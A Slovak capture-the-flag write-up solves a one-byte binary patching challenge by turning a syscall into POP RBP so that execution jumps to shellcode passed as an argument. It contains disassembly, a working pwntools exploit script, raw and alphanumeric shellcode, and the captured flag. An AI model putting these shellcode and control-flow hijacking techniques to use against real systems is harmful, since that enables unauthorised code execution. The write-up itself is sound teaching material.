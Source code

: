 # Zadanie

EN: Your infiltration of ByteBusters Inc. continues. Having bypassed their perimeter security and isolation protections, you've uncovered their bleeding-edge firmware patching system.

Can you craft the perfect patch to transform their innocent executable into a backdoor that will reveal their secrets? Flag is located in /flag.txt

SK: Tvoja infiltrácia spoločnosti ByteBusters Inc. pokračuje. Po prekonaní ich perimetrového zabezpečenia a izolačných ochrán si odhalil ich najmodernejší systém opravovania firmvéru.

Dokážeš vytvoriť dokonalú záplatu na premenu ich nevinného spustiteľného súboru na zadné vrátka, ktoré odhalia ich tajomstvá? Vlajka sa nachádza v /flag.txt

`exp.cybergame.sk:7007`

**Súbory:**

- docker-compose.yml
- Dockerfile
- chall
- run.py

## Riešenie

Táto potvora bola naopak najťažšia. Nie tým, že by bol kód nejaký komplikovaný, ale kvôli tomu, že to nemalo žiadne očividné riešenie.

Binárka je taká malá, že samotné jadro binárky tvorí len 52 bajtov. 

Čo sa vlastne deje na pozadí?

V princípe nám dá server možnosť patchnúť jeden bajt binárky predtým ako nám ju patchnutú spustí. Po pripojení od nás server žiada offset bajtu, ktorý chceme zmeniť, potom samotnú hodnotu bajtu a napokon argumenty, s ktorými chcem binárku spustiť. Samotná binárka, ale vlajku pred štartom nenačítava, takže nejaké čítanie stacku alebo podobne nám nepomôže a teda je viac než jasné, že argument budeme potrebovať. 

Vzerá to takto

```
=================================================
|  ByteBusters Secure Firmware Patching System  |
=================================================
Single-byte modification permitted for critical updates
Target byte offset for patch: 0x1111 (čokoľvek vrámci veľkosti binárky)
Replacement byte value: 0x00 (čokoľvek v rozahu 0x00 - 0xFF)
WARNING: Integrity check failed!
Execute anyway? Provide execution parameters:
akykolvek argument mozeme poskytnut
No flag here!        (a tento crap printne :D)
```

Čo binárka robí?

Zavolá funkciu `vuln()` tá cez syscall write printe na file deskriptor 1 (stdout) obsah zo sekcie .rodata z adresy 0x12000, tj. string `No flag here!\n`, vráti sa do entry funkcie, nastaví si rax register na `0x3c`, rdi na 0 a zavolá syscall, ktorý kedže je rax 0x3c, je to syscall `exit` a binárka sa ukončí.

Moje riešenie bol v prepísaní bajtu na offsete `0x100f` , kde som syscall opcode `0f 05`, konkréne `0f` zmenil na bajt `5d`, teda na `POP RBP`, čím teda nedošlo k exitu, ale posunutie adries na stacku a namiesto exitu sa program neukončí, ale pokračuje na ďalšej adrese, teda 0x11010, kde nám ostal bajt `55` z pôvodného opcode a kedže to nie je jednobajtova inštrukcia, zožrala bajty z vuln a zmenila defakto aj správanie binárky po skočení na túto adresu.

Namiesto povodných instrukcií 

```

00011000 e8 0c 00        CALL       vuln                                             undefined vuln()
         00 00
00011005 48 c7 c0        MOV        RAX,0x3c
         3c 00 00 00
0001100c 48 31 ff        XOR        RDI,RDI
0001100f 0f 05           SYSCALL

00011011 55              PUSH       RBP
00011012 89 e5           MOV        EBP,ESP
00011014 48 c7 c0        MOV        RAX,0x1
         01 00 00 00
0001101b 48 c7 c7        MOV        RDI,0x1
         01 00 00 00
00011022 48 8d 35        LEA        RSI,[message]                                    = "No flag here!\n"
         d7 0f 00 00
00011029 48 c7 c2        MOV        RDX,0xd
         0d 00 00 00
00011030 0f 05           SYSCALL
00011032 5d              POP        RBP
00011033 c3              RET

```

sa nám pokračovanie zmenilo na 

```
0001100f 5d              POP        RBP
00011010 05 55 89        ADD        EAX,0x48e58955
         e5 48
00011015 c7 c0 01        MOV        EAX,0x1
         00 00 00
0001101b 48 c7 c7        MOV        RDI,0x1
         01 00 00 00
00011022 48 8d 35        LEA        RSI,[message]                                    = "No flag here!\n"
         d7 0f 00 00
00011029 48 c7 c2        MOV        RDX,0xd
         0d 00 00 00
00011030 0f 05           SYSCALL
00011032 5d              POP        RBP
00011033 c3              RET
```

Ale tým, že sme zmenili inštrukcie a už nemáme pôvodný PUSH RBP (teda on tam stále je, ale iba vtedy sa vykoná, pokiaľ program zavoláme presne na adrese vuln funckie a to 0x11011) a teda sme nahradili 

```
0001100f 0f 05           SYSCALL

00011011 55              PUSH       RBP
00011012 89 e5           MOV        EBP,ESP
00011014 48 c7 c0        MOV        RAX,0x1
         01 00 00 00
```

týmto

```
0001100f 5d              POP        RBP
00011010 05 55 89        ADD        EAX,0x48e58955
         e5 48
00011015 c7 c0 01        MOV        EAX,0x1
         00 00 00
```

tak nám binárka od adresy 0x1100f pokračuje po novom takto a tým sa zavolaním `pop rbp` zoberie zo stacku vrchná hodnota a vloží sa do RBP, v tomto prípade teda argc. Funkcia `vuln` má však ešte jeden svoj `pop rbp`, takže sa do rbp dostane ďalšia hodnota zo stacku, tentoraz argv[0] (cesta k binárke). Po tomto druhom `pop rbp` ukazuje stack na argv[1], teda náš argument. Po vykonaní inštrukcie `ret` sa RIP nastaví práve na túto hodnotu, čiže na adresu, kde začína náš shellcode, ktorý sa následne vykoná.

Tu použijem opäť shellcraft, ale rovno  shellcraft.cat, pretože poznám cestu k vlajku.

Výsledný skript bude

```python
from pwn import *

context.clear(arch='amd64')
shellcode = asm(shellcraft.cat("/flag.txt"))

pwnio = remote("exp.cybergame.sk", 7007)
pwnio.sendlineafter(b"Target byte offset for patch:", b"0x100f")
pwnio.sendlineafter(b"Replacement byte value:", b'0x5d')
pwnio.sendlineafter(b"execution parameters:", shellcode)
print(pwnio.recvall(timeout=4).decode(errors="ignore"))
pwnio.close()

```

a výstup

```
[+] Opening connection to exp.cybergame.sk on port 7007: Done
[+] Receiving all data: Done (64B)
[*] Closed connection to exp.cybergame.sk port 7007

No flag here!No flag here!SK-CERT{n1c3_4lph4num3r1c_5h3llc0d3}
```

Vlajka síce hovorí o peknom alfanumerickom shellkóde, ale môj isto nebol čisto alfanumerický (konkrétne bol v hex `6a 74 48 b8 2f 66 6c 61 67 2e 74 78 50 6a 02 58 48 89 e7 31 f6 0f 05 41 ba ff ff ff 7f 48 89 c6 6a 28 58 6a 01 5f 99 0f 05` a už to, že sú tu bajty väčšie ako 0x7a, čo je posledný alfanumericý znak o tom hovorí), takže zrejme moje riešenie nie je pôvodný autorský zámer na riešenie :D

---

PS. Tak som si urobil research a skutočne existuje čisto alfanumerický shellcode, taký čo spawne shell, je to 

```asm
XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V
```

Proof of concept, kde som zada príkaz `cat /flag.txt`

```
=================================================
|  ByteBusters Secure Firmware Patching System  |
=================================================
Single-byte modification permitted for critical updates
Target byte offset for patch: 0x100f
Replacement byte value: 0x5d
WARNING: Integrity check failed!
Execute anyway? Provide execution parameters:
XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V
No flag here!No flag here!
cat /flag.txt
SK-CERT{n1c3_4lph4num3r1c_5h3llc0d3}
```



## Vlajka

```
SK-CERT{n1c3_4lph4num3r1c_5h3llc0d3}
```
